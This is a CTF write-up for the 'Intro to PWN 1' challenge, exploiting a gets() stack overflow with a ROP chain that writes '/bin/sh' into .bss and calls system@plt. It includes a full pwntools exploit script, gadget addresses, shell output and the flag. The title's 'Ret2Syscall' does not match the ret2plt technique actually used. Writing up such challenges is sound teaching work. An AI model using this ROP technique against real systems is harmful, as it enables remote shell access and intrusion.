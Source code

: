 # Intro 1

## CTF Write-up: Intro to PWN 1 - ROP Ret2Syscall (gets -> system)

**Challenge:** Intro to PWN 1 (116 points)**Description:** A basic pwn challenge where the direct `win` function is patched. Hints suggest building on basic overflow concepts.**Attachments:** `intro-pwn-1.zip` (containing `vuln.c`, the `intro-pwn` binary)**Connection:** `ncat --ssl-verify 191378e46f47ff8f0f8253da-1024-intro-pwn-1.challenge.cscg.live 1337`

#### Analysis

1. **Source Code (`vuln.c`):**
   * The function `vuln` contains a classic **Stack Buffer Overflow** vulnerability. It uses `gets` to read into a `char name[16]` buffer without any size limit.
   * A `win` function exists (`0x4011d5`) but the description explicitly states it's useless (`system("echo no cat /flag for you")`). We cannot simply redirect execution to it.
2. **Binary Protections (`checksec`):**
   * `Partial RELRO`: Standard, not a significant hindrance here.
   * `No canary found`: **Critical.** This means we can overwrite the saved return address on the stack without triggering a security check.
   * `NX enabled`: **Critical.** The stack is marked as non-executable, preventing us from injecting and running shellcode directly on the stack.
   * `No PIE`: **Critical.** The binary's addresses (functions, gadgets, `.bss` section) are static. We don't need an information leak to know where things are located.
3. **Disassembly (`gdb`):**
   * The `name` buffer is 16 bytes (`0x10`) below the saved frame pointer (`rbp`).
   * The standard x64 function prologue means the saved return address (`rip`) is located `0x10` (buffer size) + `0x8` (saved `rbp`) = `0x18` (24) bytes after the start of the `name` buffer.

#### Vulnerability: Stack Buffer Overflow -> Control RIP

The unbounded `gets(name)` allows us to write past the 16-byte `name` buffer. Since there is no stack canary, we can overwrite the saved `rbp` and, more importantly, the saved return address (`rip`) stored on the stack. By carefully crafting our input, we can replace the original return address with an address of our choosing, hijacking the program's control flow when the `vuln` function returns.

#### Attack Plan: ROP (Return-Oriented Programming)

Since NX prevents executing shellcode on the stack and `ret2win` is not viable, we must use ROP. Our goal is to execute `system("/bin/sh")` to get a shell on the server.

1. **Target Function:** We need to call the `system` function. Its address in the Procedure Linkage Table (PLT) is static because PIE is disabled. We can find this using `objdump -d intro-pwn | grep system@plt` or let `pwntools` find it (`elf.plt['system']`).
2. **Target Argument:** `system` requires one argument (passed via the `RDI` register on x64): a pointer to the command string (`/bin/sh`).
3. **Controlling `RDI`:** We need a ROP gadget to load an address into `RDI`. The standard gadget for this is `pop rdi; ret`. We search the binary for this sequence using `ROPgadget` or `pwntools`. The address `0x4012b3` contains this gadget.
4. **Getting the `/bin/sh` String:** The string `/bin/sh` doesn't exist within the binary itself. We need to write it into memory at a predictable location.
   * We can leverage the `gets` function (also available via its PLT entry, `elf.plt['gets']`) within our ROP chain.
   * We choose a writable memory location, such as the `.bss` section (e.g., `0x404080`), whose address is static (No PIE).
5. **ROP Chain Construction:**
   * Send 24 bytes of padding to fill the `name` buffer and overwrite the saved `rbp`.
   * **Gadget 1:** Address of `pop rdi; ret` (`0x4012b3`).
   * **Argument 1:** Address of the target buffer in `.bss` (`0x404080`). This address will be popped into `RDI`.
   * **Function 1:** Address of `gets@plt`. This call will read input from the user (us) and write it to the location specified by `RDI` (our `.bss` address). We will send `/bin/sh`.
   * **Gadget 2:** Address of `pop rdi; ret` (`0x4012b3`) again. This executes after `gets` returns.
   * **Argument 2:** Address of the `.bss` buffer (`0x404080`), which now contains `/bin/sh\x00`. This address will be popped into `RDI`.
   * **Function 2:** Address of `system@plt`. This calls `system` with `RDI` pointing to our `/bin/sh` string, giving us a shell.

#### Exploit Script (Python w/ pwntools)

```python
#!/usr/bin/env python3
from pwn import *
import re # For flag extraction later

# --- Setup ---
# Load the binary context
context.binary = elf = ELF("./intro-pwn")
context.arch = 'amd64'
# context.log_level = 'debug' # Enable for detailed ROP chain/interaction view

# --- Constants and Addresses ---
OFFSET = 24                 # Padding bytes to reach RIP
BSS_WRITE_ADDR = 0x404080   # Chosen writable address in .bss section
POP_RDI_RET = 0x00000000004012b3 # Gadget: pop rdi; ret
GETS_PLT = elf.plt['gets']      # Address of gets in PLT
SYSTEM_PLT = elf.plt['system']  # Address of system in PLT

# --- Connection ---
# p = process(elf.path) # Uncomment for local testing
HOST = '191378e46f47ff8f0f8253da-1024-intro-pwn-1.challenge.cscg.live'
PORT = 1337
p = remote(HOST, PORT, ssl=True) # Connect to remote server

# --- Build ROP Chain ---
# Use pwntools ROP module for cleaner chain building
rop = ROP(elf)

# 1. call gets(&bss_addr) to read "/bin/sh" into memory
rop.call(GETS_PLT, [BSS_WRITE_ADDR])
# 2. call system(&bss_addr) which now holds "/bin/sh"
rop.call(SYSTEM_PLT, [BSS_WRITE_ADDR])

# Construct final payload: Padding + ROP Chain
payload = b'A' * OFFSET + rop.chain()
log.info("ROP Chain:\n" + rop.dump()) # Print the constructed chain

# --- Interaction ---
# Receive the initial prompt
log.info("Receiving initial prompt...")
p.recvuntil(b"What is your name?\n")

# Send the overflow payload containing the ROP chain
log.info("Sending ROP payload...")
p.sendline(payload)

# First part of ROP chain executes: gets(&bss_addr)
# Send "/bin/sh" string (null-terminated) which gets written to BSS_WRITE_ADDR
log.info("Sending '/bin/sh' to gets()...")
p.sendline(b"/bin/sh\x00")

# Second part of ROP chain executes: system(&bss_addr) -> Shell!
log.success("Payload sent, switching to interactive mode...")
p.interactive() # Hand over control to user for shell interaction
```

#### Execution and Result

Running the exploit script successfully overflowed the buffer, executed the ROP chain, wrote `/bin/sh` into the `.bss` section via `gets`, and then called `system` with the address of that string, resulting in a shell on the remote server.

```
[*] '/home/kali/Desktop/intro-pwn-1 (1)/intro-pwn'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
    Debuginfo:  Yes
[+] Opening connection to 191378e46f47ff8f0f8253da-1024-intro-pwn-1.challenge.cscg.live on port 1337: Done
[*] Loading gadgets for '/home/kali/Desktop/intro-pwn-1 (1)/intro-pwn'
[*] ROP Chain:
    0x0000:         0x4012b3 pop rdi; ret
    0x0008:         0x404080 BSS section to write to (.bss)
    0x0010:         0x401060 gets
    0x0018:         0x4012b3 pop rdi; ret
    0x0020:         0x404080 address of "/bin/sh" in .bss
    0x0028:         0x401080 system
[*] Receiving initial prompt...
[*] Sending ROP payload...
[*] Sending '/bin/sh' to gets()...
[+] Payload sent, switching to interactive mode...
[*] Switching to interactive mode
Hello AAAAAAAAAAAAAAAAAAAAAAAA\xb3\x12@\x00\x00\x00\x00\x00\x80@\x00\x00\x00\x00\x00`\x10@\x00\x00\x00\x00\x00\xb3\x12@\x00\x00\x00\x00\x00\x80@\x00\x00\x00\x00\x00\x80\x10@\x00\x00\x00\x00!
I have a present for you: 50015
$ ls             <-- Commands entered in the interactive shell
bin
boot
dev
etc
flag
home
intro-pwn
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
ynetd
$ cat flag       <-- Reading the flag
CSCG{5om3t1m35_y0u_c4nt_533_th3_f0r35t_f0r_th3_tr335}$
[*] Got EOF while reading in interactive
```

**Flag:** `CSCG{5om3t1m35_y0u_c4nt_533_th3_f0r35t_f0r_th3_tr335}`

#### Conclusion

This challenge demonstrated a classic stack buffer overflow exploitation technique using Return-Oriented Programming (ROP) to bypass NX protection. The absence of stack canaries and PIE simplified the exploitation. The key step, beyond a simple `ret2system`, was to incorporate a call to `gets` within the ROP chain (`ret2gets`) to first write the needed `/bin/sh` string into a known memory location before calling `system`.
